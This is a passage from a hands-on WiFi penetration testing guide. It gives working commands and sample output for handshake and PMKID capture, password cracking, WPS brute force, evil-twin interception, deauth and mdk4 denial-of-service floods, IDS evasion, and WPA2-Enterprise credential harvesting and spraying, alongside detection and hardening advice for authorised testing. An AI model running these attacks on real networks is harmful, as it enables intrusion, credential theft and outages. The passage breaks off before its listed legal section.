

# WiFi Hacking and Penetration Testing Guide

A hands-on WiFi hacking and penetration testing guide, written from my own lab notes. It walks the full wireless workflow the way I run it on an authorised engagement: recon, monitor mode, capturing a WPA/WPA2 handshake, cracking it offline, WPS, the evil twin, and just as importantly how a blue team detects and shuts all of this down.

> **Read this first.** Everything here is for networks you own or have **written permission** to test, and for learning in a lab you control. Attacking or jamming WiFi you do not own is illegal almost everywhere. See the [legal section](#legal-and-ethics) at the end. This guide exists so defenders understand the attack, not so anyone runs it on strangers.

## The whole procedure at a glance

<div align="center">
  
</div>

A wireless assessment runs in three phases, and every attack step has a matching defence step. That pairing is the whole point: you run the attack to prove the gap, then you tell the client how to detect and close it.

1. **Prepare.** Get a **signed scope and rules-of-engagement**, then put a monitor-mode adapter on the air. No signature, no test.
2. **Attack (in scope only).** Recon both bands, lock onto one in-scope target, capture the WPA/WPA2 handshake or PMKID, and crack it **offline**. Optional in-scope paths are WPS brute force, an evil twin to test client trust, and deauth/[mdk4](#mdk4) which is a lab-only denial-of-service.
3. **Defend and report.** Show how the blue team detects each attack (IDS, `tshark` on management frames), what hardening kills it (802.11w/PMF, WPA3, WPS off), and write it all up. The report is the deliverable, not the crack.

The rest of this guide walks each box in order, starting at [monitor mode](#monitor-mode).

## Contents
1. [Why WiFi testing matters](#why-wifi-testing-matters)
2. [How a real engagement starts](#how-a-real-engagement-starts)
3. [What you need: adapter, monitor mode, Linux](#what-you-need)
4. [Recommended adapters and where to buy](#recommended-adapters)
5. [Install the tools](#install-the-tools)
6. [Monitor mode, step by step](#monitor-mode)
7. [Recon: scan for networks and clients](#recon)
8. [Lock onto one target](#lock-onto-one-target)
9. [Capture the WPA/WPA2 handshake](#capture-the-handshake)
10. [Crack it: aircrack-ng, Hashcat, John](#crack-it)
11. [WPS attacks: wash, reaver, bully](#wps-attacks)
12. [The evil twin](#the-evil-twin)
13. [Automate it: wifite and airgeddon](#automate-it)
14. [Deauth and denial of service](#deauth-and-denial-of-service)
15. [mdk4: beacon flood, auth DoS, and stress testing](#mdk4)
16. [Fake authentication and ARP replay (WEP)](#fake-auth)
17. [WPA2-Enterprise / 802.1X testing](#wpa2-enterprise)
18. [How the blue team detects it](#how-the-blue-team-detects-it)
19. [Hardening and defence](#hardening-and-defence)
20. [Troubleshooting](#troubleshooting)
21. [Choosing the right attack](#choosing-the-right-attack)
22. [Where IoT fits in](#where-iot-fits-in)
23. [Wireless pentest checklist](#checklist)
24. [Common ports reference](#ports)
25. [Legal and ethics](#legal-and-ethics)

---

## Why WiFi testing matters
<a id="why-wifi-testing-matters"></a>

WiFi is the soft edge of almost every corporate network. A firewall watches the wire, but the radio leaks out of the building and into the car park, the café next door, the floor above. If an attacker can sit outside with an antenna and reach the signal, the whole perimeter argument changes. That is why wireless is a standard part of a full network penetration test: the access point is a door that opens into the internal network, and most people never check whether it is locked.

I test WiFi to answer three questions for a client. Can someone capture and crack the WiFi password from outside? Can they stand up a fake copy of the network and trick staff onto it? And if they try either, will anyone notice? The first two are the attack. The third is the part that actually earns the report.

## How a real engagement starts
<a id="how-a-real-engagement-starts"></a>

A wireless test does not start with a laptop. It starts with paperwork. Here is roughly how it goes.

A company brings me in to test their office WiFi. Before anything else we agree **scope** in writing: which SSIDs and BSSIDs I am allowed to touch, the physical location, the test window, and what I am not allowed to do (usually: no sustained outages during business hours, no touching the neighbour's network that shares the airspace). The client signs an authorisation, often called a rules-of-engagement document. That signature is the only thing that separates a penetration test from a crime.

On site, the company typically says something like "here is our guest SSID and our corporate SSID, see if you can get onto the corporate one or capture a password." From there I map what is in the air, pick the in-scope target, capture a handshake, take it away to crack offline, and if evil twin is in scope I test whether staff devices will trust a lookalike network. At the end I write up what worked, what the password strength was, whether PMF was on, and whether their monitoring saw me. Everything below is that workflow.

## What you need
<a id="what-you-need"></a>

**A WiFi adapter that supports monitor mode and packet injection.** This is the one piece of kit that matters.

**Monitor mode** is a mode your wireless card can be put into where it stops behaving like a normal client and instead listens to every 802.11 frame in the air, including management frames from networks it is not connected to. Normal "managed" mode only hears traffic for the network you joined. Monitor mode is what lets airodump-ng see every nearby AP and client, and **packet injection** is what lets you send crafted frames like deauthentication.

**A myth worth killing:** monitor mode does **not** physically harm your adapter or your laptop. It is a software mode, nothing more. What is true is that many laptop **internal** WiFi cards (especially Intel ones) either do not support monitor mode and injection at all, or support it badly. That is a driver and chipset limitation, not damage. If your internal card does not do it, you do not break anything by trying, you just get an error. The fix is an external USB adapter with a known-good chipset.

**Linux.** Run Kali or Parrot, either as your main OS, a dual boot, or a live USB. A VM works too, but you must pass the USB adapter through to the VM, because the wireless stack needs direct access to the hardware. I keep a dual boot so the card talks straight to the kernel.

## Recommended adapters
<a id="recommended-adapters"></a>

The chipset is everything. These are the chipsets with solid monitor mode and injection support on Linux, and the adapters that carry them.

| Adapter | Chipset | Bands | Notes |
| --- | --- | --- | --- |
| **Alfa AWUS036NHA** | Atheros AR9271 | 2.4GHz | The classic. Rock-solid injection, works out of the box on Kali. My first pick for reliability. |
| **Alfa AWUS036ACM** | MediaTek MT7612U | 2.4 / 5GHz | Best modern dual-band option, in-kernel driver, no out-of-tree mess. |
| **Alfa AWUS036ACH / AXML** | RTL8812AU | 2.4 / 5GHz | Dual-band, long range, needs the `88XXau` driver on some kernels. |
| **Panda PAU09** | Ralink RT5372 | 2.4 / 5GHz | Cheap and dependable for 2.4GHz work. |
| **TP-Link TL-WN722N v1** | Atheros AR9271 | 2.4GHz | Great, but **only v1**. v2 and v3 use a Realtek chip that needs patched drivers. |

**Buy globally.** Alfa adapters ship worldwide. These search links stay valid wherever you are:

- Alfa AWUS036NHA: [Amazon](https://www.amazon.com/s?k=Alfa+AWUS036NHA) | [AliExpress](https://www.aliexpress.com/w/wholesale-alfa-awus036nha.html)
- Alfa AWUS036ACM: [Amazon](https://www.amazon.com/s?k=Alfa+AWUS036ACM) | [AliExpress](https://www.aliexpress.com/w/wholesale-alfa-awus036acm.html)
- Alfa AWUS036ACH: [Amazon](https://www.amazon.com/s?k=Alfa+AWUS036ACH) | [AliExpress](https://www.aliexpress.com/w/wholesale-alfa-awus036ach.html)
- Official manufacturer and distributor list: [alfa.com.tw](https://www.alfa.com.tw)

**On a budget / in India,** a TP-Link works to learn on. I started on a TP-Link Archer T2U Plus (RTL8821AU), around 1000 to 1100 INR, driver support on Kali and Parrot. Just know its monitor mode is less reliable than an Alfa.

- TP-Link T2U Plus: [Amazon India](https://www.amazon.in/TP-Link-Wireless-Adapter-Archer-T2U/dp/B07P681N66) | [Flipkart](https://www.flipkart.com/tp-link-ac600-t2u-plus-usb-adapter/p/itmfhz7zg85hgtzg)

> One I would **skip**: the TP-Link Archer T3U Plus (RTL8812BU). The 8812BU needs an out-of-tree driver and injection is unreliable. Save yourself the pain and get an Alfa.

## Install the tools
<a id="install-the-tools"></a>

On Kali most of this is already present. To be sure:

```bash
sudo apt update
sudo apt install aircrack-ng hashcat hcxdumptool hcxtools wifite reaver bully hostapd dnsmasq mdk4 macchanger -y
```

If you want my adapter-driver setup script:

```bash
git clone https://gitlab.com/deathesther/wifi-hacking-guide && cd wifi-hacking-guide && chmod +x Documents/install.sh && ./Documents/install.sh
```

## Monitor mode
<a id="monitor-mode"></a>

First, find your adapter. Plug it in and check it is seen on the USB bus:

```bash
lsusb
```

Then look at your wireless interfaces. On Kali the internal or first adapter is usually `wlan0`; a second one shows as `wlan1`. I always work off the interface name (`wlan0`) rather than the nickname, because the name is what every tool expects.

```bash
iwconfig
```

It will say `Mode:Managed`. Two ways to flip it to monitor.

### The manual way (good to understand once)

```bash
sudo airmon-ng check kill      # stop NetworkManager and wpa_supplicant so they stop fighting you (this drops your WiFi, do not panic)
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig                       # confirm it now says Mode:Monitor
```

### The fast way

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

This renames the interface, usually to `wlan0mon`, and puts it in monitor mode:

```
PHY     Interface   Driver      Chipset
phy0    wlan0       ath9k_htc   Atheros AR9271
        (mac80211 monitor mode enabled on [phy0]wlan0mon)
```

### Confirm injection works

No point attacking with a card that cannot inject:

```bash
sudo aireplay-ng --test wlan0mon
```

A healthy adapter reports APs responding and a percentage of injected packets getting through.

## Recon
<a id="recon"></a>

List everything in the air:

```bash
sudo airodump-ng wlan0mon
```

By default airodump only scans 2.4GHz. To sweep 2.4GHz and 5GHz together, add `--band abg`. The letters are the 802.11 PHYs: `a` is 5GHz, `b` and `g` are 2.4GHz. So `abg` means "scan all of them."

```bash
sudo airodump-ng wlan0mon --band abg
```

Example output:

```
 CH  6 ][ Elapsed: 0 mins ][ 2026-07-10 10:15
 BSSID              PWR  Beacons  #Data  CH  MB   ENC   CIPHER  AUTH  ESSID
 3C:84:6A:11:22:33  -39       42      8   1  300  WPA2  CCMP    PSK   HomeWiFi
 8A:BC:DE:44:55:66  -58       27      3   6  130  WPA2  CCMP    PSK   CoffeeShop
 F0:9F:C2:77:88:99  -69       18      0  11  130  OPN           --    Office-Guest

 BSSID              STATION             PWR   Rate    Lost  Frames
 3C:84:6A:11:22:33  54:EF:44:AA:BB:CC   -45   54e-54     0      16
```

What the columns mean:

- **BSSID** the access point's MAC address
- **PWR** signal strength (closer to 0 is stronger; -39 is strong, -75 is faint)
- **CH** channel
- **ENC / CIPHER / AUTH** the security (WPA2 / CCMP / PSK is a normal home or office network; OPN is open)
- **ESSID** the network name
- The lower pane lists **STATION**s, the client devices connected to each AP

`iwlist wlan0 scan` gives similar information in managed mode if you just want a quick look without going full monitor.

## Lock onto one target
<a id="lock-onto-one-target"></a>

Once I have picked an in-scope network, I stop sweeping and watch only it, on its channel, and write everything to disk. From the example above I take the BSSID and its channel:

```bash
sudo airodump-ng --bssid 3C:84:6A:11:22:33 -c 11 --write capture wlan0mon
```

Now the display shows just that AP and the clients on it. `--write capture` saves to `capture-01.cap` and friends. Leave this running; it is the capture that will catch the handshake.

## Capture the handshake
<a id="capture-the-handshake"></a>

A WPA/WPA2 network only shows its password (as a crackable hash) during the four-way **handshake**, which happens when a client joins. I can wait for someone to connect, or I can speed it up: knock an already-connected client off for a moment so it reconnects, and capture the handshake on the way back in.

With the targeted airodump still running in one terminal, in another I send a short, targeted deauth at one client:

```bash
sudo aireplay-ng --deauth 10 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon
```

- `-a` the AP's BSSID
- `-c` the client to bump (leave it off to hit all clients, but targeting one is cleaner and quieter)
- `--deauth 10` send ten frames, then stop. This is a nudge to force a reconnect, not a flood.

```
18:42:15  Waiting for beacon frame (BSSID: 3C:84:6A:11:22:33)
Sending 64 directed DeAuth frames
18:42:19  Done.
```

When the client reconnects, airodump catches the handshake and prints it in the top right:

```
 CH 11 ][ WPA handshake: 3C:84:6A:11:22:33 ]
```

That is the whole job on site. The `.cap` file now holds the hash. Cracking happens offline, away from the target.

### PMKID (often no deauth needed)

Modern networks often leak a **PMKID** that you can grab from the AP directly, no client and no deauth required:

```bash
echo "3C846A112233" > target.txt
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1 --filterlist_ap=target.txt --filtermode=2
```

```
Start capturing (press CTRL+C to stop) ...
15:15:01  [1] PMKID: 3C846A112233 / 112233445566 / HomeWiFi
^C
Summary:
  PMKIDs: 1
```

## Crack it
<a id="crack-it"></a>

Cracking is offline and is just guessing the password against the captured hash. You never touch the network for this part.

### aircrack-ng (quick CPU test)

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Fast to try, fine for weak passwords, slow for anything serious.

### Hashcat (GPU, the real workhorse)

Convert the capture to the modern 22000 format first:

```bash
hcxpcapngtool -o hash.22000 capture.pcapng
```

Then crack. Mode 22000 covers both PMKID and EAPOL:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt --status --status-timer=10
```

Add rules to stretch a wordlist (this is where real cracks come from):

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

```
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Recovered........: 1/1 (100.00%)
Candidate........: TargetPassword123
```

> Note: the older `hcxpcaptool` and hashcat mode `16800` are legacy. Modern Kali uses `hcxpcapngtool` and mode `22000`.

### John the Ripper

```bash
hashcat --example-hashes | grep -i wpa   # or convert with hcxpcapngtool, then:
john --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk-opencl hash.22000
```

### When the wordlist fails

A generic list rarely beats a password someone actually chose. Build a targeted one with **cewl** (scrape the company website for words), **cupp** (profile a person), or **crunch** (generate patterns), then run Hashcat again. On real engagements this step, not the attack, is what decides success.

## WPS attacks
<a id="wps-attacks"></a>

WPS (WiFi Protected Setup) is the eight-digit PIN feature on many routers. It is a known weak point, because the PIN can be brute forced. First find APs with WPS on:

```bash
sudo wash -i wlan0mon
```

```
WPS  BSSID              Channel  RSSI  WPS Version  WPS Locked  ESSID
00:11:22:33:44:55      11       -42   1.0          No          TargetESSID
AA:BB:CC:DD:EE:FF      6        -75   1.0          Yes         Neighbor_Net
```

Target one with **reaver** or **bully** (only ones marked `WPS Locked: No` are worth it):

```bash
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -vv
sudo bully wlan0mon -b 00:11:22:33:44:55 -e TargetESSID -c 11
```

```
[+] Trying pin '12345670'
[+] WPS PIN: '12345670'
[+] WPA PSK: 'TargetWPAKey123'
```

The lesson for the report: if WPS is on, the WPA password length barely matters. Turning WPS off is one of the highest-value fixes you can recommend.

## The evil twin
<a id="the-evil-twin"></a>

An evil twin is a fake copy of a real network. The point of testing it is to answer a defensive question: **will staff devices silently trust a lookalike AP, and what leaks if they do?** This is why open and cleartext traffic on public WiFi is dangerous, and the write-up is really an argument for a VPN and for 802.1X / certificate-pinned WiFi.

Stand up the lookalike AP with airbase-ng:

```bash
sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid TargetESSID -c 6 wlan0mon
```

It creates a tap interface `at0`. Bridge it to your internet-facing interface so clients get real connectivity through you, and run DHCP so they get an address:

```bash
sudo ip link add name br0 type bridge
sudo ip link set br0 up
sudo ip link set eth0 master br0
sudo ip link set at0 master br0
sudo dhclient br0 &
```

A bounded deauth nudges clients off the real AP so they hop to yours:

```bash
sudo aireplay-ng --deauth 100 -a AA:BB:CC:DD:EE:FF wlan0mon
```

Now open Wireshark on `br0`. Any cleartext HTTP or unauthenticated protocol from a reconnected client is visible, and "Follow Stream" reconstructs the session. That single screenshot in a report, a staff login over plain HTTP through a rogue AP, does more to get HTTPS and a VPN mandated than any paragraph.

## Automate it
<a id="automate-it"></a>

Once you understand the manual flow, automate the boring parts. Two tools do the whole chain.

**wifite** picks targets, captures handshakes and PMKIDs, and can hand off to cracking:

```bash
sudo wifite --kill
```

It lists targets, you pick a number, and it runs capture and deauth for you.

**airgeddon** is a menu-driven wrapper over the whole suite (monitor mode, scanning, handshake, evil twin, cracking):

```bash
sudo airgeddon
```

Use these to move fast, but only after you can do it by hand. An automated tool that you cannot debug is useless the moment it misbehaves on a real network.

## Deauth and denial of service
<a id="deauth-and-denial-of-service"></a>

A deauthentication frame tells a client it has been disconnected. Deauth frames are a normal, required part of 802.11, and before WPA3 they are unprotected, so any device that has seen the AP and client addresses can forge one.

Used in short, targeted bursts to force a reconnect, deauth is a legitimate capture step, and that is covered above. Sent **continuously**, the same frame becomes a **denial-of-service attack**: it keeps a network or a client offline for as long as it runs.

> **Lab only, and here is why.** The commands below will knock real devices off a real network. Run them only against an AP **you own** or that is **explicitly in scope**, in a lab or an isolated test SSID. Sustained jamming is specifically illegal (see the [legal section](#legal-and-ethics)), and it is almost never in scope on a real engagement, because taking a client offline during business hours is exactly what they pay you not to do. The value of knowing these is the **detection** half in the [next section](#how-the-blue-team-detects-it): you run it briefly in a lab to generate the signature, then prove the blue team can see it.

**Continuous deauth with aireplay-ng (freezing a lab client).** Drop the count to `0` and aireplay-ng sends until you stop it with Ctrl+C. Omit `-c` to hit every client on the AP.

```bash
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 wlan0mon          # all clients, until Ctrl+C
sudo aireplay-ng --deauth 0 -a 3C:84:6A:11:22:33 -c 54:EF:44:AA:BB:CC wlan0mon   # one client
```

Reference: the official [aireplay-ng documentation](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) covers every mode (deauth, fakeauth, arpreplay, test). For the broader stress-testing tool, see the dedicated [mdk4 section](#mdk4) next.

## mdk4: beacon flood, auth DoS, and stress testing
<a id="mdk4"></a>

Where aireplay-ng does one thing (inject specific frames), **mdk4** is the all-round 802.11 stress tool. It is the successor to mdk3, ships in Kali, and exposes ten attack modes. It needs a card already in [monitor mode](#monitor-mode).

> **Lab only.** Every command here disrupts a real network. Run them only against an AP you own or that is explicitly in scope, briefly, to generate a signature you then detect. See the [lab-only warning above](#deauth-and-denial-of-service) and the [legal section](#legal-and-ethics).

```bash
mdk4 --fullhelp                           # list every mode and option
```

### Demo: the three you will actually use

```bash
# 1. Beacon flood (mode b) - spam fake APs. Fills every scanner, and floods a
#    Wireshark capture with junk beacons so real traffic is hard to read.
sudo mdk4 wlan0mon b -n FakeCorp          # one fake SSID
sudo mdk4 wlan0mon b -f ssids.txt         # a whole list of fake SSIDs from a file

# 2. Authentication DoS (mode a) - flood an AP with fake auth frames.
#    Enough fake clients can exhaust its table and freeze or reset it.
sudo mdk4 wlan0mon a -a 3C:84:6A:11:22:33

# 3. Deauth flood (mode d) - the continuous version of the handshake nudge,
#    knocks listed BSSIDs offline and keeps them there.
sudo mdk4 wlan0mon d -b blacklist.txt -c 6
```

### Why beacon flood "confuses Wireshark"

A beacon flood makes a scanner show hundreds of APs that do not exist, and a live capture fills with thousands of beacon frames a second. To cut back to real traffic while studying a flood, filter beacons **out** in Wireshark:

```
wlan.fc.type_subtype == 0x08       # show only beacons (study the flood)
!(wlan.fc.type_subtype == 0x08)    # hide beacons (keep reading real traffic)
```

### All ten modes, and what each one looks like to a defender

| Mode | Attack | What a defender sees |
| --- | --- | --- |
| `b` | Beacon flooding | Dozens/hundreds of new SSIDs appear at once |
| `a` | Authentication DoS | Flood of auth frames (subtype `0x0b`); AP may freeze/reset |
| `p` | SSID probe / bruteforce | Burst of probe requests for one BSSID |
| `d` | Deauth / disassociation | Deauth (12) / disassoc (10) storm, clients flapping |
| `m` | Michael (TKIP) shutdown | TKIP AP shuts down ~60s (legacy networks only) |
| `e` | EAPOL start/logoff flood | Flood of EAPOL-Start frames |
| `s` | 802.11s mesh attacks | Abnormal mesh link-management traffic |
| `w` | WIDS confusion | Contradictory association state across APs |
| `f` | Packet fuzzer | Malformed / non-compliant frames |
| `x` | Protocol-implementation PoC | Odd frames; target may crash or disconnect |

A few notes that matter on a real test:

- **`m` (Michael)** only bites legacy **TKIP** networks; modern WPA2-CCMP/WPA3 are immune, which is itself a finding ("you are still on TKIP").
- **`w` (WIDS confusion)** deliberately feeds a wireless IDS contradictory data to see if it can be blinded, so it is useful specifically for exercising the blue team.
- **`f` (fuzzer)** and **`x` (protocol PoC)** can crash drivers or firmware; report any device that crashes, that is a vendor bug.

**IDS evasion.** mdk4 can append `--ghost <period,max_rate,min_txpower>` (switch rate/power periodically) and `--frag <min,max,percent>` (fragment outgoing frames) to dodge some signature-based IDS. They are driver-dependent and unreliable. The lesson for a defender: signature evasion is possible, so lean on **behavioural** detection (clients flapping, association-table churn, EAPOL rate) and on **802.11w / PMF**, which ignores the forged-management-frame modes (`a`, `d`, `e`) no matter how they are dressed up.

What matters for a portfolio and for a defender is the other half: a deauth or beacon flood is loud and obvious, and a blue team should catch it instantly. That is covered in [how the blue team detects it](#how-the-blue-team-detects-it).

## Fake authentication and ARP replay (WEP)
<a id="fake-auth"></a>

Fake authentication and ARP replay are classic **WEP** steps. WEP is obsolete and you will rarely meet it outside a lab or old hardware, but it is the cleanest way to understand injection, and `--fakeauth` is also how you associate with an AP that has no clients so you can inject. Official reference: [aireplay-ng documentation](https://www.aircrack-ng.org/doku.php?id=aireplay-ng).

Lock onto the target, then fake-authenticate so the AP accepts your injected frames:

```bash
sudo airodump-ng wlan0mon --bssid <router-mac> -c <channel> --write capture
sudo aireplay-ng --fakeauth 0 -a <router-mac> -h <your-mac> wlan0mon
```

- `--fakeauth 0` single association (use e.g. `30` to re-associate every 30s if the AP drops you)
- `-h` your card's MAC, which you can confirm with `macchanger -s wlan0mon` or `ip addr`

A success prints `Association successful :-)`. Now replay an ARP packet to make the AP generate IVs fast, which is what cracks WEP:

```bash
sudo aireplay-ng --arpreplay -b <router-mac> -h <your-mac> wlan0mon
aircrack-ng capture-01.cap          # with enough IVs, WEP falls in minutes
```

The lesson for any report: if WEP is running anywhere, replace it now. For WPA/WPA2 do not use this path; capture the handshake or PMKID and crack offline as [above](#capture-the-handshake).

## WPA2-Enterprise / 802.1X testing
<a id="wpa2-enterprise"></a>

WPA2-Personal uses one shared passphrase. **WPA2-Enterprise** instead authenticates each user against a **RADIUS** server over **802.1X / EAP** (username/password with PEAP or EAP-TTLS, or a client certificate with EAP-TLS). There is no shared WiFi password to crack, so the test and the main weakness are different.

**The flaw to test for:** whether clients **validate the RADIUS server certificate**. If a device will hand its credentials to any AP advertising the right SSID, an attacker stands up a fake AP plus a fake RADIUS server, and the client authenticates *to the attacker*, leaking its username and an MSCHAPv2 challenge/response that cracks offline. Nearly every real Enterprise finding traces back to this.

> **Most sensitive step on the engagement.** Impersonation captures real staff credentials. Get it named explicitly in the rules-of-engagement, store captures encrypted, and destroy them after reporting.

### Workflow, with the purpose and tool for each step

1. **Confirm it is 802.1X and find the EAP method** (so you know if it is phishable). In airodump the `AUTH` column reads **MGT** for Enterprise.
   ```bash
   sudo airodump-ng wlan0mon --band abg       # confirm WPA2 MGT, note BSSID/channel
   sudo crEAP -i wlan0mon                      # passively identify EAP types and usernames
   sudo eapeak -f capture.pcap                 # parse a capture for EAP methods/identities
   ```
2. **Harvest usernames** (targeting, and to show which identities leak). `crEAP`/`eapeak` pull the outer identities, often sent in the clear.
3. **Impersonate the RADIUS server** (the core test). A client that does not validate the cert connects and leaks its MSCHAPv2 challenge/response.
   ```bash
   sudo ./eaphammer --cert-wizard                                   # one-time: build the fake cert
   sudo ./eaphammer -i wlan0 --channel 6 --auth wpa-eap \
        --essid CorpWiFi --creds                                    # rogue AP + RADIUS, capture creds
   sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf               # classic alternative
   ```
   **If no client connects, that is a PASS:** cert validation is enforced. Record it as such.
4. **Crack the captured MSCHAPv2** offline (prove the password is recoverable).
   ```bash
   asleap -C <challenge> -R <response> -W /usr/share/wordlists/rockyou.txt
   hashcat -m 5500 captured.hash /usr/share/wordlists/rockyou.txt
   ```
5. **Password spray** within scope (test policy and lockout; keep attempts low so real staff are not locked out).
   ```bash
   sudo python3 air-hammer.py -i wlan0 -e CorpWiFi -u users.txt -p 'Winter2026!'
   ```
6. **EAP-TLS environments** (client certs): impersonation will not harvest passwords, so pivot to the certificate issuance/revocation process, whether private keys are exportable, device-vs-user cert scoping, and whether a stolen device grants access. This is an endpoint and process review.

### Fixes to recommend
- **Enforce server-certificate validation on every client** (validate CN/SAN, pin the internal CA). This one setting defeats the impersonation attack.
- **Prefer EAP-TLS** (mutual certs) over PEAP/TTLS-MSCHAPv2 where feasible.
- **Use a dedicated private CA** for RADIUS so clients can pin it, never a public one.
- **Enforce lockout and a strong password policy** at the identity layer, plus [802.11w/PMF and segmentation](#hardening-and-defence).

### Professional checklist

```
WPA2-ENTERPRISE / 802.1X TEST CHECKLIST
[ ] Written authorisation and scope signed (SSID, realm, window, creds handling)
[ ] Target confirmed as 802.1X (airodump AUTH = MGT)
[ ] EAP method identified (PEAP / EAP-TTLS / EAP-TLS / EAP-FAST)
[ ] Outer-identity usernames harvested (crEAP / eapeak)
[ ] Rogue AP + fake RADIUS stood up (eaphammer / hostapd-wpe)
[ ] Client cert-validation behaviour recorded (connected = FAIL, refused = PASS)
[ ] MSCHAPv2 challenge/response captured (if any client connected)
[ ] Offline crack attempted (asleap / hashcat -m 5500)
[ ] Password spray tested within scope, lockout behaviour noted (air-hammer)
[ ] EAP-TLS cert process reviewed (if applicable)
[ ] IDS / RADIUS-log detection validated with the blue team
[ ] All captured credentials stored encrypted and scheduled for destruction
[ ] Findings, evidence, and remediation written up
```

### Reporting format

One block per finding, factual and tied to a fix.

```
FINDING:   <short title, e.g. "Clients do not validate RADIUS server certificate">
SEVERITY:  Critical / High / Medium / Low / Informational
AFFECTED:  <SSID, client platforms, user groups observed>
DESCRIPTION: <the weakness in plain language>
EVIDENCE:  <redacted proof: username with password masked, rogue-AP log, timestamps>
IMPACT:    <what an attacker gains, e.g. domain creds that also grant VPN + email>
LIKELIHOOD: <how easy/likely, e.g. trivial: a laptop and a $30 adapter in the car park>
REMEDIATION: <specific, e.g. GPO/MDM enforcing cert validation against CN radius.corp.local>
STATUS:    Open
```

**Severity guidance:** Critical = creds captured and cracked, no cert validation. High = validation off but crack not finished in the window, or weak policy with no lockout. Medium = usernames leak, PEAP-MSCHAPv2 but validation enforced. Informational = EAP-TLS enforced correctly (document good posture too).

## How the blue team detects it
<a id="how-the-blue-team-detects-it"></a>

This is the part a company actually pays for: did anyone see it?

Deauth frames are 802.11 management frames with subtype `0x0c` (12). You can watch for them live:

```bash
sudo tshark -i wlan0mon -Y "wlan.fc.type_subtype == 12" -T fields -e frame.time -e wlan.sa -e wlan.da
```

```
Jul 10 14:25:11.001   aa:bb:cc:dd:ee:ff   ff:ff:ff:ff:ff:ff
Jul 10 14:25:11.052   aa:bb:cc:dd:ee:ff   ff:ff:ff:ff:ff:ff
```

In Wireshark, the same filter:

```
wlan.fc.type_subtype == 0x0c
```

A quick tcpdump capture for later analysis:

```bash
sudo tcpdump -i wlan0mon -w deauth.pcap type mgt subtype deauth
```

Watch which stations are flapping on and off:

```bash
watch -n 2 "iw dev wlan0mon station dump"
```

The signatures of an attack in progress:

1. Many clients disconnecting and reconnecting in a tight window
2. A burst of deauth frames, often to the broadcast address
3. Repeated EAPOL handshakes in a short time (someone is capturing)
4. Dozens of new SSIDs appearing at once (beacon flood), or two APs with the same ESSID but different BSSIDs (evil twin)

A proper wireless IDS such as **Kismet** or **nzyme** alerts on all of this automatically. The point of the test is to check the client has one, and that someone reads it.

## Hardening and defence
<a id="hardening-and-defence"></a>

What I recommend in the report:

- **Enable 802.11w (Protected Management Frames / PMF).** This signs management frames, so forged deauths are ignored. Mandatory on WPA3, optional on WPA2. It kills the deauth attack outright.
- **Use WPA3, or WPA2 with a long random passphrase.** Length beats complexity; a 20+ character passphrase is not getting cracked from a wordlist.
- **Turn WPS off.** A strong password is pointless if the PIN is brute forceable.
- **Deploy a wireless IDS** (Kismet, nzyme, or the vendor's own) and make sure alerts reach a human.
- **Segment guest and corporate WiFi,** and put corporate on 802.1X (per-user certs or credentials) rather than a shared PSK.
- **Move sensitive devices to 5GHz / WPA3,** out of reach of cheap 2.4GHz-only attack hardware.
- Keep AP firmware current, and watch controller logs for repeated disassociations and unknown MACs.

## Troubleshooting
<a id="troubleshooting"></a>

- **WiFi gone after testing / card stuck in monitor mode.** Bring networking back:

  ```bash
  sudo airmon-ng stop wlan0mon
  sudo systemctl restart NetworkManager
  ```

  `systemctl restart NetworkManager` restarts the service that manages your connections on systemd systems; `sudo service NetworkManager restart` is the older equivalent. Either one hands control of the card back to the desktop.

- **"Fixed channel: -1" or injection failing.** A background process grabbed the card. Run `sudo airmon-ng check kill` again.
- **Adapter not showing in `iwconfig`.** Check `lsusb` and `dmesg | tail` for the driver loading. Dual-band Realtek cards often need their out-of-tree driver installed.
- **Spoof your MAC** when a test calls for it:

  ```bash
  sudo ifconfig wlan0 down
  sudo macchanger -r wlan0        # random, or -m AA:BB:CC:DD:EE:FF for a specific one
  sudo ifconfig wlan0 up
  ```

## Choosing the right attack
<a id="choosing-the-right-attack"></a>

Where to aim, quickly:

- **WPA2-PSK network, clients connected** then capture a handshake (deauth a client, grab it, crack offline). The most common path.
- **WPA2-PSK, no clients** then go for the PMKID with hcxdumptool, no client needed.
